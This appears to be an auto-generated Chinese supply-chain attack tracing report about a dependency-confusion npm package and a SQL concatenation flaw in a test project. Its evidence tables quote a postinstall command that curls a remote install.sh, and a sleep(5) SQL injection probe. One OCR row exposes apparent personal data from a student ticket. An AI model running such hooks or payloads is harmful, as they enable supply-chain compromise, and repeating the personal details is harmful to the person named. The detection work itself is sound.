



# SupplyGuard KG 供应链攻击溯源报告

生成时间：2026-06-30 03:17:36 UTC

> [!CAUTION]
> 当前报告面向供应链攻击检测与溯源研判。请先处理“用户该做什么”中的最高优先级和高优先级动作，再展开后续证据细节。

## 1. 一句话结论

建议优先处理「测试」项目中的最高风险链路：多模态证据印证供应链投毒到运行期异常路径。

一句话结论：OCR/ASR 多模态证据、规则命中、依赖/构建关系和运行期日志相互印证，能串成跨模态高可信供应链攻击路径，综合置信度 82%。

- 综合风险：96 / 100（critical）
- 首要依赖风险对象：@acme/payments-helper，风险分 96
- 运行期证据：POST /admin/export
- 处置优先级：优先封堵 OCR/ASR 中识别到的依赖包、外联 IP 和敏感接口，并把同时间窗的 CI/CD、SBOM、运行日志作为取证材料保留。

立即建议：
1. 隔离或替换高危依赖。
2. 使用干净 runner 重新构建。
3. 校验 artifact 哈希、签名、provenance 和 attestation。
4. 排查运行期外联、敏感接口访问和异常日志。
5. 如确认影响发布或运行环境，回滚版本并吊销相关 Token。

## 2. 用户该做什么

| 优先级 | 动作 | 原因 |
| --- | --- | --- |
| 最高优先级 | 阻断发布并冻结当前产物 | 当前最高风险路径为：多模态证据印证供应链投毒到运行期异常路径。先避免风险进入用户环境。 |
| 最高优先级 | 隔离高危依赖并复核来源 | 优先检查 @acme/payments-helper 是否为 AI 推荐、手动引入、依赖混淆或漏洞版本。 |
| 高优先级 | 使用干净 Runner 重新构建 | 重新生成 发布产物，并校验 digest、commit、workflow、builder、provenance 和 attestation。 |
| 高优先级 | 排查运行期外联和敏感访问 | 当前运行期日志不足，建议补充日志后复扫。 |
| 中优先级 | 补齐证据并复扫攻击链 | 补充签名、可信 builder、hash baseline、Git 提交记录和 AI 生成来源标记。 |

## 3. 风险总览

| 指标 | 结果 |
| --- | --- |
| 综合风险 | 96 / 100 |
| 风险等级 | 严重 |
| 高可信真实路径 | 0 条 |
| 处置优先级 | 最高优先级 |

## 4. 攻击路径总览

**最高优先级路径：** 多模态证据印证供应链投毒到运行期异常路径

- 路径判定：cross-modal-corroborated-path
- 综合置信度：82%
- 修复优先级：最高优先级
- 影响资产：cicd-error.png -> package:@acme/payments-helper -> npm package @acme/payments-helper -> 构建脚本执行 -> 测试 build -> 测试 runtime -> egress

```mermaid
flowchart LR
  N1["VisualEvidence: cicd-error.png"]
  N2["MultimodalFinding: 截图或语音中出现安装脚本外联"]
  N3["RecognizedEntity: package:@acme/payments-helper"]
  N4["DependencyPackage: npm package @acme/payments-helper"]
  N5["CIStep: 构建脚本执行"]
  N6["BuildArtifact: 测试 build"]
  N7["RuntimeService: 测试 runtime"]
  N8["LogEvent: egress"]
  N9["AttackStage: 供应链投毒阶段"]
  N1 -->|触发规则| N2
  N2 -->|关联实体| N3
  N3 -->|关联依赖包| N4
  N4 -->|可进入构建| N5
  N5 -->|生成产物| N6
  N6 -->|部署为| N7
  N7 -->|产生日志| N8
  N8 -->|关联| N9
```

## 5. 关键证据与风险信号

| 编号 | 等级 | 评分 | 风险 | 影响资产 | 来源 |
| --- | --- | ---: | --- | --- | --- |
| finding-node:f13369fcf0078521 | critical | 96 | 截图或语音中出现安装脚本外联 | multimodal_audit | Sigma-style YAML rule |
| finding-node:97aaa1dda7db9b21 | critical | 96 | 截图或语音中出现安装脚本外联 | multimodal_audit | Sigma-style YAML rule |
| finding-node:fae7ec87f56d1cf1 | critical | 96 | 截图或语音中出现安装脚本外联 | multimodal_audit | Sigma-style YAML rule |
| finding-node:88ab8ea49348d9fb | critical | 96 | 截图或语音中出现安装脚本外联 | multimodal_audit | Sigma-style YAML rule |
| finding-node:a1f8b27b61a1bf27 | critical | 96 | 截图或语音中出现安装脚本外联 | multimodal_audit | Sigma-style YAML rule |
| finding-node:6cf793b6b25b0dee | critical | 96 | 截图或语音中出现安装脚本外联 | multimodal_audit | Sigma-style YAML rule |
| finding-node:1c20f675a47230f0 | critical | 96 | 截图或语音中出现安装脚本外联 | multimodal_audit | Sigma-style YAML rule |
| finding-node:617c55daecfc1f62 | critical | 96 | 截图或语音中出现安装脚本外联 | multimodal_audit | Sigma-style YAML rule |
| finding-node:b02fba9c9a6ec6ce | critical | 96 | 截图或语音中出现安装脚本外联 | multimodal_audit | Sigma-style YAML rule |
| finding-node:924b35866c71f9f8 | critical | 96 | 截图或语音中出现安装脚本外联 | multimodal_audit | Sigma-style YAML rule |
| finding-node:199b40c53d3c4edf | critical | 96 | 截图或语音中出现安装脚本外联 | multimodal_audit | Sigma-style YAML rule |
| finding-node:075ce42d7c6ab147 | critical | 96 | 疑似依赖混淆包在构建阶段执行安装脚本 | 供应链 | WorkspaceSummary |

## 6. 攻击路径详情

本节展示系统如何把依赖、CI/CD、产物可信和运行期日志串成可解释路径。长证据默认折叠，便于先看结论。

### 1. 多模态证据印证供应链投毒到运行期异常路径

一句话结论：OCR/ASR 多模态证据、规则命中、依赖/构建关系和运行期日志相互印证，能串成跨模态高可信供应链攻击路径，综合置信度 82%。

- 路径判定：cross-modal-corroborated-path
- 综合置信度：82%
- 严重级别：严重
- 路径评分：100 / 100
- 影响资产：cicd-error.png -> package:@acme/payments-helper -> npm package @acme/payments-helper -> 构建脚本执行 -> 测试 build -> 测试 runtime -> egress
- 修复优先级：最高优先级
- 攻击映射：software/evidence tree correlation, observable confidence and relationship graph, path scoring and source diversity
- 参考模型：GUAC, OpenCTI, NetworkX, Sigma, Wazuh

路径步骤：
- cicd-error.png --触发规则--> 截图或语音中出现安装脚本外联（Sigma/Wazuh，置信度 90%）：Sigma-style multimodal rule matched recognized text from this evidence source.
- 截图或语音中出现安装脚本外联 --影响资产--> package:@acme/payments-helper（FINDING_AFFECTS，置信度 86%）：Finding references the normalized asset by asset_id.
- package:@acme/payments-helper --关联依赖包--> npm package @acme/payments-helper（GUAC，置信度 88%）：GUAC-style package observable matches an SBOM dependency component.
- npm package @acme/payments-helper --可进入构建--> 构建脚本执行（GUAC，置信度 72%）：A poisoned dependency can run install-time behavior or influence generated artifacts.
- 构建脚本执行 --生成产物--> 测试 build（SLSA/in-toto，置信度 78%）：A compromised step or builder can produce a modified artifact.
- 测试 build --部署为--> 测试 runtime（ARTIFACT_DEPLOYED_AS，置信度 82%）：Workspace runtime metadata links the build artifact to the deployed service.
- 测试 runtime --产生日志--> egress（Runtime evidence，置信度 84%）：Runtime logs show whether the build-time risk manifested after deployment.
- egress --关联--> 供应链投毒阶段（evidence，置信度 50%）：NormalizedLogEvent

可信证据链：
- GUAC：软件树中存在可达依赖节点；主体=npm package @acme/payments-helper；状态=observed
- in-toto：构建步骤将 material 转换为 product；主体=构建脚本执行；状态=needs-attestation
- SLSA：产物需要 subject digest、builder identity 和 materials provenance；主体=测试 build；状态=gap
- Runtime evidence：运行期行为证明风险可能已经触发；主体=egress；状态=observed

证据缺口：
- 当前路径未发现明显证据缺口。

关键封堵点：
- npm package @acme/payments-helper：固定私有源、锁定版本并清理缓存包。
- 构建脚本执行：收敛权限、固定 Action 到 commit SHA，并使用干净 runner。
- 测试 build：重新构建并校验产物哈希/provenance。
- 测试 runtime：回滚或隔离服务实例，保留日志和镜像证据。
- egress：封禁相关来源/目的地址并扩大同时间窗排查。

证据摘要：
- image evidence: cicd-error.png：MME-20260603075345873115-DDC20BBF stored at storage/multimodal/MME-20260603075345873115-DDC20BBF-image-cicd-error.png
- 截图或语音中出现安装脚本外联：GitHub Actions / deploy-prod-2481 [09:42:10] Run npm ci npm install @acme/payments-helper@9.9.2 resolved @acme/paymen...
- package: @acme/payments-helper：pm install @acme/payments-helper@9.9.2 resolved @acme/payments-helper r from public registry @acme/payments-helper@9.
- package: @acme/payments-helper：pm install @acme/payments-helper@9.9.2 resolved @acme/payments-helper r from public registry @acme/payments-helper@9.
- visual_ocr: cicd-error.png：GitHub Actions / deploy-prod-2481 [09:42:10] Run npm ci npm install @acme/payments-helper@9.9.2 resolved @acme/paymen...

### 2. 证据可串成供应链投毒到运行期异常的攻击路径

一句话结论：可以串成合理攻击路径，但仍有证据缺口；当前更适合作为优先排查路径，综合置信度 71%。

- 路径判定：plausible-attack-path
- 综合置信度：71%
- 严重级别：严重
- 路径评分：100 / 100
- 影响资产：src/orders/query.py:118 -> npm package @acme/payments-helper -> 构建脚本执行 -> 测试 build -> 测试 runtime -> egress
- 修复优先级：最高优先级
- 攻击映射：T1195
- 参考模型：GUAC, SLSA, in-toto, BloodHound CE, MITRE ATT&CK STIX

路径步骤：
- src/orders/query.py:118 --声明依赖入口--> npm package @acme/payments-helper（GUAC，置信度 62%）：If the package is malicious or vulnerable, it can be selected during dependency resolution.
- npm package @acme/payments-helper --可进入构建--> 构建脚本执行（GUAC，置信度 72%）：A poisoned dependency can run install-time behavior or influence generated artifacts.
- 构建脚本执行 --生成产物--> 测试 build（SLSA/in-toto，置信度 78%）：A compromised step or builder can produce a modified artifact.
- 测试 build --部署为--> 测试 runtime（ARTIFACT_DEPLOYED_AS，置信度 82%）：Workspace runtime metadata links the build artifact to the deployed service.
- 测试 runtime --产生日志--> egress（Runtime evidence，置信度 84%）：Runtime logs show whether the build-time risk manifested after deployment.
- egress --关联--> 供应链投毒阶段（evidence，置信度 50%）：NormalizedLogEvent

可信证据链：
- GUAC：软件树中存在可达依赖节点；主体=npm package @acme/payments-helper；状态=observed
- in-toto：构建步骤将 material 转换为 product；主体=构建脚本执行；状态=needs-attestation
- SLSA：产物需要 subject digest、builder identity 和 materials provenance；主体=测试 build；状态=gap
- Runtime evidence：运行期行为证明风险可能已经触发；主体=egress；状态=observed

证据缺口：
- 路径关系可达，但部分边是启发式关联；建议补充时间线、产物哈希或来源 IP 证据。

关键封堵点：
- npm package @acme/payments-helper：固定私有源、锁定版本并清理缓存包。
- 构建脚本执行：收敛权限、固定 Action 到 commit SHA，并使用干净 runner。
- 测试 build：重新构建并校验产物哈希/provenance。
- 测试 runtime：回滚或隔离服务实例，保留日志和镜像证据。
- egress：封禁相关来源/目的地址并扩大同时间窗排查。

证据摘要：
- 未知域名外联：checkout-api -> 185.199.108.153:443
- 疑似依赖混淆包在构建阶段执行安装脚本：包名与内部私有包相同，公共源版本号更高，并包含 postinstall 外联行为。
- 订单查询接口存在 SQL 拼接风险：用户可控 order_by 字段进入 SQL 字符串拼接，缺少白名单映射。

### 3. 证据可串成构建链路完整性受损路径

一句话结论：能串成构建完整性风险路径，但还需要 provenance/attestation 才能证明产物确被篡改，综合置信度 62%。

- 路径判定：provenance-risk-path
- 综合置信度：62%
- 严重级别：严重
- 路径评分：100 / 100
- 影响资产：构建脚本执行 -> 测试 build -> 测试 runtime
- 修复优先级：最高优先级
- 攻击映射：Build provenance and integrity
- 参考模型：SLSA, in-toto, GUAC, BloodHound CE

路径步骤：
- 构建脚本执行 --生成产物--> 测试 build（SLSA/in-toto，置信度 78%）：A compromised step or builder can produce a modified artifact.
- 测试 build --部署为--> 测试 runtime（ARTIFACT_DEPLOYED_AS，置信度 82%）：Workspace runtime metadata links the build artifact to the deployed service.
- 测试 runtime --关联--> 构建链路风险阶段（evidence，置信度 50%）：Runtime

可信证据链：
- in-toto：构建步骤将 material 转换为 product；主体=构建脚本执行；状态=needs-attestation
- SLSA：产物需要 subject digest、builder identity 和 materials provenance；主体=测试 build；状态=gap

证据缺口：
- 路径节点没有关联证据片段，需要补充扫描结果或日志。

关键封堵点：
- 构建脚本执行：收敛权限、固定 Action 到 commit SHA，并使用干净 runner。
- 测试 build：重新构建并校验产物哈希/provenance。
- 测试 runtime：回滚或隔离服务实例，保留日志和镜像证据。

证据摘要：
- 暂无证据。

### 4. 证据可串成应用漏洞被运行期探测触达的攻击路径

一句话结论：能串成运行期触达路径：静态风险点和日志探测互相印证，综合置信度 70%。

- 路径判定：runtime-touched-risk
- 综合置信度：70%
- 严重级别：高危
- 路径评分：94 / 100
- 影响资产：src/orders/query.py:118 -> waf
- 修复优先级：高优先级
- 攻击映射：T1190
- 参考模型：SARIF, BloodHound CE, MITRE ATT&CK STIX, React Flow

路径步骤：
- src/orders/query.py:118 --运行期触达--> waf（LOG_SUPPORTS_FINDING，置信度 74%）：Code risk category and runtime SQL injection log match the application attack rule.
- waf --关联--> 应用攻击阶段（evidence，置信度 50%）：NormalizedLogEvent

可信证据链：
- Runtime evidence：运行期行为证明风险可能已经触发；主体=waf；状态=observed

证据缺口：
- 路径关系可达，但部分边是启发式关联；建议补充时间线、产物哈希或来源 IP 证据。

关键封堵点：
- waf：封禁相关来源/目的地址并扩大同时间窗排查。

证据摘要：
- SQL 注入探测：order_by payload contains sleep(5)
- 订单查询接口存在 SQL 拼接风险：用户可控 order_by 字段进入 SQL 字符串拼接，缺少白名单映射。

## 7. AI 辅助研判

### 研判结论

AI 辅助研判未发现新的高风险对象。当前结论仍以依赖、CI/CD、产物可信和运行日志证据为准。

| 指标 | 结果 |
| --- | --- |
| 高风险 AI 节点 | 0 个 |
| 重点复核对象 | 0 个 |
| GraphRAG 证据命中 | 0 条 |

### 重点关注对象

| 对象 | AI 风险分 | 建议 |
| --- | ---: | --- |
| - | - | 暂无需要优先复核的 AI 风险对象 |

### 说明

GNN 用于根据依赖关系和图谱上下文给节点重新排序；GraphRAG 用于把相关证据串联起来。该模块只辅助判断“哪些节点更值得优先看”，不单独作为攻击成立依据。

## 8. Vibe Coding 风险归因

当前证据不能直接证明风险一定由 AI 生成，但可以判断这些风险符合 Vibe Coding 场景中“AI 推荐 / 用户接受 / 快速进入工程流程”的典型进入方式。

| 风险来源 | 判断 | 证据说明 |
| --- | --- | --- |
| AI 推荐依赖 | 疑似 | 存在高风险依赖进入依赖清单，但当前缺少 AI 对话或提交来源记录。 |
| AI 生成代码 | 未确认 | 当前报告未包含可证明代码由 AI 生成的元数据。 |
| AI 生成 CI/CD 配置 | 无法判断 | 需要结合 workflow 文件、提交记录和 AI 会话记录确认。 |
| AI 生成 Docker/IaC 配置 | 未确认 | 如后续上传 Dockerfile、Kubernetes 或 Terraform 配置，可继续归因。 |
| 开发者手动引入 | 无法排除 | 缺少提交人、提交消息和代码评审上下文，不能排除人工引入。 |
| 未知来源 | 是 | 当前缺少依赖和配置的引入来源标记。 |

建议后续在项目导入或扫描任务中增加来源标记：AI 生成代码、AI 推荐依赖、AI 生成 CI/CD 配置、AI 生成 Docker/IaC 配置、开发者手动引入或未知。

## 9. 影响评估

| 影响对象 | 判断 | 说明 |
| --- | --- | --- |
| 用户数据 | 需要排查 | 运行期日志可用于确认是否访问用户数据、敏感接口或异常外联。 |
| 构建凭据 | 未确认 | 若发现明文密钥、Token 或高权限 workflow，需要立即轮换凭据。 |
| 发布渠道 | 未确认 | 产物 digest、provenance、builder 或 runner 不可信时，需要暂停发布。 |
| 下游系统 | 需要排查 | 如果受污染产物已分发，需要确认下游部署范围。 |
| 是否回滚 | 建议评估 | 当产物可信失败或运行期异常成立时，应优先回滚到可信版本。 |
| 是否吊销 Token | 建议评估 | 如果日志或配置显示凭据可能泄露，应吊销并重新签发。 |

## 10. 技术明细

展开扫描范围、证据完整性、阶段研判和证据链

### 扫描范围

| 项目 | 数值 |
| --- | ---: |
| 项目名称 | 测试 |
| 文件总数 | 29 |
| 可扫描文件 | 23 |
| 被忽略文件 | 5 |
| 二进制 / 压缩包 | 1 |
| 依赖清单 | 3 个 |
| CI/CD 配置 | 0 个 |
| 主要语言 | JSON |

文件类型覆盖：

| 类型 | 文件数 | 占比 |
| --- | ---: | ---: |
| JSON | 10 | 100% |
| Markdown | 3 | 0% |
| YAML | 2 | 0% |
| JavaScript | 3 | 0% |

### 工程证据清单

### 已识别依赖清单

- sample-repo/package-lock.json
- sample-repo/package.json
- sample-repo/requirements.txt

### 已识别 CI/CD 配置

未发现 CI/CD 配置文件。

### 产物与来源证明

- 产物：-
- attestation / provenance：-
- 产物可信检查项：0 项

### 日志材料

- 日志事件：0
- 日志风险：0
- 运行期风险等级：-

### 证据完整性提醒

1. 未发现 CI/CD 配置，无法完整判断 workflow 权限、Action 固定版本、runner 可信度和远程脚本执行。
2. 未提供发布产物，无法校验 artifact SHA256、签名、attestation 和 provenance。
3. 未发现 CI/CD 配置文件，无法完整判断构建链权限、Action 版本和 runner 可信度。
4. 1 binary or archive files were skipped. 这些文件不能按源码方式审计，需要进入产物可信门禁校验哈希、签名和 provenance。
5. 当前项目来自本地路径导入，浏览器侧不会直接读取任意文件，扫描以服务端工作区材料为准。

### 攻击阶段研判

### 1. 入口风险

首要依赖对象：@acme/payments-helper，风险分 96。依赖风险可能来自可疑版本、依赖混淆、漏洞版本、安装脚本或相似恶意包特征。

### 2. 执行风险

系统会检查 postinstall、install script、curl | bash、远程脚本下载、明文密钥和危险代码调用。若依赖安装脚本与 CI/CD 执行证据同时存在，应提高优先级。

### 3. 构建风险

CI/CD 配置数量：0。当前缺少 workflow 材料，构建链风险无法完整判断。

### 4. 产物风险

产物可信风险：0 项。需要重点确认 artifact SHA256、attestation subject、commit/ref、workflow、builder、runner 和签名是否匹配策略。

### 5. 运行风险

日志事件：0，运行期证据：POST /admin/export。如果异常外联、敏感接口访问或 SQL 注入探测与依赖/构建链路径相连，应视为运行期印证。

### 6. 影响风险

当前最高路径置信度：82%。若路径已经连接依赖、构建、产物和运行日志，需要进一步确认用户数据、Token、发布渠道和下游系统是否受影响。

### 处置建议原文

### 立即处理

- **最高优先级 · 多模态证据印证供应链投毒到运行期异常路径**：优先封堵 OCR/ASR 中识别到的依赖包、外联 IP 和敏感接口，并把同时间窗的 CI/CD、SBOM、运行日志作为取证材料保留。
- **最高优先级 · 证据可串成供应链投毒到运行期异常的攻击路径**：隔离高危依赖，使用干净 runner 重新构建，校验产物哈希，并排查运行期外联。
- **最高优先级 · 证据可串成构建链路完整性受损路径**：收敛 workflow 权限，第三方 Action 固定到 commit SHA，并为产物增加 provenance/attestation。
- **高优先级 · 证据可串成应用漏洞被运行期探测触达的攻击路径**：修复 SQL 拼接点，增加参数化查询和字段白名单，同时复核相关请求来源。

### 短期修复

- 引入 Git Hook，在提交前阻断硬编码密钥、可疑依赖和危险脚本。
- 引入 CI Gate，在 PR 阶段阻断高危依赖、危险 workflow、权限过宽和未固定 Action。
- 引入 Release Gate，在发布前校验 artifact、attestation、builder、workflow、commit/ref 和签名。

### 后续增强

- 先冻结或替换受影响依赖，并重新生成 SBOM 与 VEX。
- 复核代码 import、入口路径和运行期日志，确认 affected 与待判研项。
- 使用干净 runner 重新构建产物，校验 digest、builder、workflow 和 provenance。
- 把已证实路径加入攻击链图谱，并在报告中标出证据缺口和处置优先级。

### 证据链

| 序号 | 时间 | 证据类型 | 关联资产 | 证据摘要 | 来源模型 |
| ---: | --- | --- | --- | --- | --- |
| 1 | 2026-06-03T07:53:45 | multimodal-evidence-source | cicd-error.png | MME-20260603075345873115-DDC20BBF stored at storage/multimodal/MME-20260603075345873115-DDC20BBF-image-cicd-error.png | ASR/OCR + Sigma-style rules |
| 2 | 2026-06-03T07:53:59 | multimodal-rule-match | cicd-error.png | GitHub Actions / deploy-prod-2481 [09:42:10] Run npm ci npm install @acme/payments-helper@9.9.2 resolved @acme/payments-helper r from public registry @acme/payments-helper@9.9.2... | Sigma-style YAML rule |
| 3 | 2026-06-03T08:00:52 | recognized-security-entity | package:@acme/payments-helper | pm install @acme/payments-helper@9.9.2 resolved @acme/payments-helper r from public registry @acme/payments-helper@9. | Regex/Keyword Entity Extraction |
| 4 | 2026-06-03T07:53:45 | recognized-security-entity | package:@acme/payments-helper | pm install @acme/payments-helper@9.9.2 resolved @acme/payments-helper r from public registry @acme/payments-helper@9. | Regex/Keyword Entity Extraction |
| 5 | 2026-06-03T07:53:59 | visual_ocr | cicd-error.png | GitHub Actions / deploy-prod-2481 [09:42:10] Run npm ci npm install @acme/payments-helper@9.9.2 resolved @acme/payments-helper r from public registry @acme/payments-helper@9.9.2... | PaddleOCR/PP-OCRv5 |
| 6 | 2026-05-30 03:18:02 | runtime-log-finding | waf | order_by payload contains sleep(5) | NormalizedLogEvent |
| 7 | 2026-05-30 03:07:04 | runtime-log-finding | egress | checkout-api -> 185.199.108.153:443 | NormalizedLogEvent |
| 8 | 2026-05-30 02:14 | workspace-finding-evidence | npm package @acme/payments-helper | 包名与内部私有包相同，公共源版本号更高，并包含 postinstall 外联行为。 | WorkspaceSummary |
| 9 | 2026-05-28 16:09 | workspace-finding-evidence | src/orders/query.py:118 | 用户可控 order_by 字段进入 SQL 字符串拼接，缺少白名单映射。 | WorkspaceSummary |

### 多模态证据融合

- 多模态证据：19 条
- 安全实体：118 个
- 规则命中：22 条
- 多模态风险：critical / 96
- 参考模型：GUAC 负责软件供应链可达关系，OpenCTI 负责 observable/置信度/first seen 语义，NetworkX 负责路径评分和多源证据连通性。

| Evidence ID | 类型 | 风险 | 关联实体 | 命中规则 | 识别文本摘要 |
| --- | --- | --- | --- | --- | --- |
| MME-20260630031700297823-41ACFFEF | image | low / 0 | - | - | 家庭所在地 学校所在地 乘车区间 光天大学 南京航空航天大学 艺 学 路37号 福建省南平市建瓯市新校场 漂阳站一 入学时间 出生年月 麻 证件号码 车 手 江苏省漂阳市 名 售 发 建瓯西 中 202309 20050311 162... |
| MME-20260611120040129581-DDC20BBF | image | low / 0 | - | - | - |
| MME-20260605112212515224-D40CCA7A | image | critical / 96 | @acme/payments-helper@9.9.2, postinstall, curl, 185.199.108.153, 凌晨三点, checkout-api, 异常外联, 外联 | multimodal-postinstall-egress, multimodal-sensitive-interface-anomaly | npm install @acme/payments-helper@9.9.2 postinstall: curl http://185.199.108.153/install.sh 凌晨三点 checkout-api 出现异常外联，... |
| MME-20260605112203250782-DDC20BBF | image | low / 0 | - | - | - |
| MME-20260603143717219602-DDC20BBF | image | low / 0 | - | - | - |
| MME-20260603080139438792-D40CCA7A | image | critical / 96 | @acme/payments-helper@9.9.2, postinstall, curl, 185.199.108.153, 凌晨三点, checkout-api, 异常外联, 外联 | multimodal-postinstall-egress, multimodal-sensitive-interface-anomaly | npm install @acme/payments-helper@9.9.2 postinstall: curl http://185.199.108.153/install.sh 凌晨三点 checkout-api 出现异常外联，... |
| MME-20260603080102092971-B4A4919E | image | high / 84 | 凌晨三点, checkout-api, 异常外联, 外联, 185.199.108.153, admin/export | multimodal-sensitive-interface-anomaly | SupplyGuard Incident Screenshot 高风险告警 时间 凌晨三点 服务 checkout-api 事件 出现异常外联 目标 185.199.108.153/install.sh 接口 admin/export... |
| MME-20260603080052880859-DDC20BBF | image | critical / 96 | 09:42:10, @acme/payments-helper@9.9.2, @acme/payments-helper, postinstall, curl, bash, 185.199.108.153 | multimodal-postinstall-egress | GitHub Actions / deploy-prod-2481 [09:42:10] Run npm ci npm install @acme/payments-helper@9.9.2 resolved @acme/paymen... |

### 路径修复建议

- **最高优先级 · 多模态证据印证供应链投毒到运行期异常路径**：优先封堵 OCR/ASR 中识别到的依赖包、外联 IP 和敏感接口，并把同时间窗的 CI/CD、SBOM、运行日志作为取证材料保留。
- **最高优先级 · 证据可串成供应链投毒到运行期异常的攻击路径**：隔离高危依赖，使用干净 runner 重新构建，校验产物哈希，并排查运行期外联。
- **最高优先级 · 证据可串成构建链路完整性受损路径**：收敛 workflow 权限，第三方 Action 固定到 commit SHA，并为产物增加 provenance/attestation。
- **高优先级 · 证据可串成应用漏洞被运行期探测触达的攻击路径**：修复 SQL 拼接点，增加参数化查询和字段白名单，同时复核相关请求来源。

